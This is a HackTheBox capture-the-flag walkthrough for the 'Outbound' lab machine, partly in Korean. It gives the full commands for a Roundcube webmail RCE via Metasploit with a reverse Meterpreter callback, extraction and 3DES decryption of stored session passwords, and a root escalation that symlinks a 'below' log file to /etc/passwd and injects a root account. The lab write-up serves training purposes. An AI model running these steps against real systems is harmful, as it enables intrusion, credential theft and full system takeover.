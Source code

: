 
# HackTheBox Walkthrough - Machine: Outbound

**Target IP**: 10.129.196.209  
**Difficulty**: Medium  
**Objective**: Exploit Roundcube Webmail and escalate privileges via Below log symlink vulnerability to root.

---

## 🛰️ Initial Enumeration

```bash
nmap -sV -sC -oA nmap/Outbound 10.129.196.209
```
![nmap](img/nmap.png)

```
22/tcp open  ssh     OpenSSH 9.6p1  
80/tcp open  http    nginx 1.24.0
```

> 웹서버는 mail.outbound.htb로 리디렉션됨

**/etc/hosts**에 추가:

```
10.129.196.209  mail.outbound.htb
```

---

## 📧 Roundcube Webmail 로그인

- URL: http://mail.outbound.htb/
- App: Roundcube Webmail
- Version: 1.6.10 (About 페이지)  
![loginpage](img/loginpage.png)

**초기 자격증명**:  
`tyler / LhKL1o9Nm3X2`

> About 클릭 시 버전 정보 확인  
![version](img/version.png)

---

## 🚀 Exploiting CVE-2025-49113 (Post-auth RCE)

```bash
msfconsole
search Roundcube Webmail 1.6.10
use exploit/multi/http/roundcube_auth_rce_cve_2025_49113
```

![exploit](img/exploit.png)

```bash
set USERNAME tyler
set PASSWORD LhKL1o9Nm3X2
set RHOSTS http://mail.outbound.htb/
set LHOST 10.10.14.156
run
```

![meterpreter](img/meterpreter.png)

> **Meterpreter** shell 획득

---

## 🧠 Local Enumeration

```bash
su tyler
# password: LhKL1o9Nm3X2
```

![tyler](img/tyler.png)

```bash
# linpeas.sh 사용하여 포트 정보 확인
./linpeas.sh
```

![linpeas1](img/linpeas1.png)  
![linpeas2](img/linpeas2.png)

> MySQL(localhost) 접속 가능  
> /var/www/html/roundcube/config/config.inc.php

```php
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
```

MySQL 접속:

```bash
mysql -u roundcube -pRCDBPass2025 -h 127.0.0.1 -D roundcube
```

![userstable](img/userstable.png)

- 테이블: `users`, `session` 등  
- `users` 테이블에서 client_hash 수집 (crack 불가)

---

## 🔓 Password Recovery via Session Table

```sql
select * from session;
```

![session](img/session.png)

- base64 decode of session.vars reveals:

```text
username|s:5:"jacob";
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
```

### 🔐 3DES 복호화

- Key: `rcmail-!24ByteDESkey*Str`  
- IV: `2fb46fd3403c4eec`  
- Input(hex): `0902bebb9084f1c5c4a09c8936e409bf`

복호화 결과 → **jacob의 password**: `595mO8DmwGeD`

```bash
su jacob
```

![jacob](img/jacob.png)

---

## 📬 Mailbox Access

```bash
cat /home/jacob/mail/INBOX/jacob
```

![jacobmail](img/jacobmail.png)

> mel로부터 패스워드 전달됨: `gY4Wr3a1evp4`

```bash
ssh jacob@10.129.196.209
```

![sshjacob](img/sshjacob.png)

---

## 🧍‍♂️ User Flag

```bash
cat user.txt
# ➜ 87f51f79ec4ad826d3624022033a26fb
```

---

## 🔝 Privilege Escalation via Below

```bash
sudo -l
```

```text
(ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, ...
```

### 🔥 CVE-2025-27591 - Symlink Exploit

- /var/log/below/* 파일을 symlink로 /etc/passwd 조작

```bash
echo 'root2:aacFCuAIHhrCM:0:0:,,,:/root:/bin/bash' > root2
rm /var/log/below/error_root.log
ln -s /etc/passwd /var/log/below/error_root.log
sudo /usr/bin/below
cp root2 /var/log/below/error_root.log
su root2
# password: 1
```

![root](img/root.png)

---

## 👑 Root Flag

```bash
cat /root/root.txt
```

![jacobmail](img/jacobmail.png)
